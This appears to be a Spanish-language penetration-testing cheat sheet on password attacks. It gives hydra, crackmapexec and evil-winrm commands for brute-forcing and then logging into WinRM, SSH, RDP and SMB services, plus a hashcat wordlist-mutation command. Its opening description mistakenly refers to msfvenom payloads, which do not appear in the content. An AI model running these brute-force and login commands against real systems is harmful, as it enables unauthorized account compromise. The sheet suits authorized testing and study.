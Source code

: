# Password Attacks o Ataques de Contraseña
## Descripción
MSFVENOM es una herramienta que viene integrada en metasploit framework que sirve principalmente para crear payloads, podemos ver algunos ejemplos con enconders para darle algo mas de sabor.

### WinRM (5985 HTTP y 5986 HTTPS)
```python
crackmapexec winrm IP -u user.list -p password.list
evil-winrm -i IP -u user -p password (tenemos credenciales arriba y esto es para hacer login)
```
### SSH (22)
```python
hydra -L user.list -P password.list ssh://IP
ssh user@IP (para ganar acceso al sistema con las credenciales descubiertas)
```
### RDP (3389)
```python
hydra -L user.list -P password.list rdp://IP
xfreerdp /v:IP /u:user /p:password (para ganar acceso al sistema con las credenciales descubiertas)
```
### SMB (445)
```python
hydra -L user.list -P password.list smb://IP
crackmapexec smb IP -u "user" -p "password" --shares
smbclient -U user \\\\IP\\SHARENAME
```

### Generar lista de palabras basada en reglas
```python
hashcat --force password.list -r custom.rule(este arribo debes de elaborar tu regla) --stdout | sort -u > mut_password.list
```
